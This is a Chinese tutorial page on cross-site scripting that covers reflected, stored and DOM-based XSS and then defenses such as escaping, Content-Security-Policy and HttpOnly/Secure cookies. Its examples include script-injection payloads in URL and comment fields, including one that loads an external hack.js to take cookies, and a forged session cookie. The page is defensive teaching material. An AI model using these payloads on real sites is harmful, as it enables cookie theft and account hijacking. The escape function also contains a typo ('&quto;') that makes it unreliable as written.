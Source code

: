 ```yaml
---
title: 安全01 XSS攻击
sidebar: 'auto'
date: 2021-11-06
categories:
- 11安全
isShowComments: true
---
```




## 1. 什么是XSS攻击

​	Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行，从而获取用户的敏感信息如 Cookie、SessionID 等

## 2. XSS攻击分类

### 1）反射型

> 攻击流程

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060819994.png)



> 实例

```js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT
Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```



:::tip

​	Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

:::



### 2）存储型

> 攻击流程

1.   黑客通过论坛发帖、商品评论等途径，将脚本提交到目标网站的数据库中
2.   用户打开网站时，网站服务器将脚本从数据库中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户数据发送给黑客网站

![截图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060906009.png)

> 攻击实例

```js
// 评论
<script>alert(1)</script>

// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```



### 3）DOM型

> 攻击流程

​	基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 **Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据**



> DOM型与其他两种XSS的区别

DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

> 实例

​	例如，黑客构造带有恶意代码的 URL 诱导用户打开 http://www.xxx.com/index.html/?content=，浏览器收到请求后解析执行，如果使用 document.write() 、document.outerHTML 、DOM .innerHTML未经转义输出，就可能遭到攻击。

![2图](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060916056.png)



## 3. 防御

### 1）转义

​	从浏览器的执行进行预防：

#### 1. **replace**

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

#### 2. **innerHTML**

```js
function filterStr(str) {
    const div = document.createElement('div')
    div.textContent = str
    return div.innerHTML
}
filterStr('<div></div>') // &lt;div&gt;&lt;/div&gt;
```



### 2）白名单

​	使用CSP， CSP的本质是简历一个白名单，告诉浏览器哪些外部资源可以加载和执行，从而防止恶意代码的注入攻击。

> CSP的功能？

- **限制加载其他域下的资源文件**。这样即使黑客插入了一个js文件，这个js文件也是无法被加载的。
- **禁止第三方域提交数据**。这样用户数据也不会外泄。
- **禁止执行内联脚本和未授权的脚本**。
- **还提供了上报机制**。这样可以帮助我们尽快发现有哪些XSS攻击，以便尽快修复问题。



#### 1. Content-Security-Policy

设置HTTP Header的Content-Security-Policy

![img](https://gitee.com/ljcdzh/my_pic/raw/master/img/202111060858557.jpeg)

```js
Content-Security-Policy:
	script-src 'self'; 
	object-src 'none';
	style-src cdn.example.org third-party.org; 
	child-src https:
```



#### 2. meta标签

```js
<meta 
	http-equiv="Content-Security-Policy" 
	content="script-src 'self'; 
	object-src 'none'; 
	style-src cdn.example.org third-party.org; 
	child-src https:
/>
```

上面代码中，CSP做了如下 配置：

-   脚本：只信任当前域名
-   `<object>`标签：不信任任何URL，即不加载任何资源
-   样式表：只信任`cdn.example.org`和`third-party.org`
-   框架（frame）：必须使用HTTPS协议加载
-   其他资源：没有限制



### 3） 防止脚本读取Cookie

#### 1. Cookie HttpOnly

​	如果cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie的信息。

​	通常**服务器**可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 **HTTP 响应头**来设置的。

> 实例

```js
// 设置cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;HttpOnly")

// 设置多个cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;HttpOnly")
response.addHeader("Set-Cookie", "uid=112;Path=/test;HttpOnly")

```

#### 2. Cookie Secure

​	Cookie添加Secure属性，只能https协议才能传输cookie, 防止中间人截取传输的cookie。

​	



> 实例

```js
// 设置https的cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;Secure")
```





## 参考

1.   [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367#heading-6)
2.   [浏览器专题系列 - Web安全](https://juejin.cn/post/6926726800793927693)
3.   [Web 安全 - 跨站脚本攻击 XSS 三种类型及防御措施](https://mp.weixin.qq.com/s/7ruF1I94p4Ve3tVDb6096A)
4.   [Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)





